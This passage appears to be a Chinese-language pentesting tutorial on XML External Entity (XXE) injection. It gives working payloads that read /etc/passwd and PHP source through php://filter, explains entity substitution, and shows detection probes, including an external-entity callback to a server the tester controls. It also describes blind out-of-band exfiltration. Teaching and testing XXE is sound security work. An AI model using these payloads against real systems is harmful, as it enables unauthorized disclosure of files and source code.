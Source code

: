 Code3

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

Code4

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php" >
]>
<root>
<name>&xxe;</name>
</root>
```

- 以Code1代码为例
  - XML外部实体 "passwd" 被赋予的值为：file:///etc/passwd
  - 在解析XML文档的过程中，实体"passwd"的值会被替换为URI(file:///etc/passwd)内容值(也就是passwd文件的内容)
  - 关键字"SYSTEM"会告诉XML解析器，"passwd"实体的值将从其后的URI中读取。

# 怎么甄别一个XML实体攻击漏洞?

- 最直接的回答就是： 甄别那些接受XML作为输入内容的端点
- 但是有时候，这些端点可能并不是那么明显
  - 比如，一些仅使用JSON去访问服务的客户端)。在这种情况下，渗透测试人员就必须尝试不同的测试方式
  - 比如修改HTTP的请求方法，修改Content-Type头部字段等等方法，然后看看应用程序的响应，看看程序是否解析了发送的内容，如果解析了，那么则可能有XXE攻击漏洞。
    - 例如wsdl（web服务描述语言）。或者一些常见的采用xml的java服务配置文件（spring，struts2）。不过现实中存在的大多数XXE漏洞都是blind，即不可见的，必须采用带外通道进行返回信息的记录，这里简单来说就是攻击者必须具有一台具有公网ip的主机。

 # xxe漏洞检测

1. 第一步先检测XML是否会被成功解析：

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE ANY [ 
<!ENTITY name "my name is nMask">]
<root>&name;</root>
// 如果页面输出了my name is nMask，说明xml文件可以被解析
```

2. 第二步检测服务器是否支持DTD引用外部实体：

 ```xml
<?xml version=”1.0” encoding=”UTF-8”?> 
<!DOCTYPE ANY [ 
<!ENTITY % name SYSTEM "http://localhost/index.html"> 
%name; 
]>
// 可通过查看自己服务器上的日志来判断，看目标服务器是否向你的服务器发了一条请求index.html的请求
 ```
